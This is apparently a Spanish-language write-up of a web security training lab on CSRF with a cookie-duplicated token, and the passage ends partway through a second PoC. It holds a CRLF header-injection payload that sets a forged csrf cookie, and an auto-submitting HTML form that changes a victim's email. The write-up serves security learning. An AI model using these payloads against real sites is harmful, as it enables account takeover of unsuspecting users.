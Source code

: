 ## Lab: CSRF where token is duplicated in cookie

This lab's email change functionality is vulnerable to CSRF. It attempts to use the insecure "double submit" CSRF prevention technique.

To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.

You can log in to your own account using the following credentials: wiener:peter

![](assets/2022-07-14-19-19-57.png)

Creo que este ejercicio será muy parecido al anterior pero en vez de enviar el csrfkey le metemos una cookie falsa

Probamos en repeater este ataque para ver si lo añade
```html
/?search=adfa%0D%0ASet-Cookie:%20csrf=fadfd
```

![](assets/2022-07-14-19-22-32.png)

Una vez que vemos que lo acepta mandamos un poc parecido al del ejercicio anterior pero en este caso actualizado con nuestra nueva url y el nuevo image

No se si tendré que poner en csrf el mismo que me invento, ahora veremos.

Usamos para enviar al poc la request de change mail
```html
<html>
  
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://0ade00720368d922c08f2844003c00ac.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="adfa&#64;gmail&#46;com" />
      <input type="hidden" name="csrf" value="uuMospS6lcEeayVVu9wh1ZqWXcUGFiWG" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```
Lo modificamos
```html
<html>
  
  <body>
  <script>history.pushState('', '', '/')</script>
```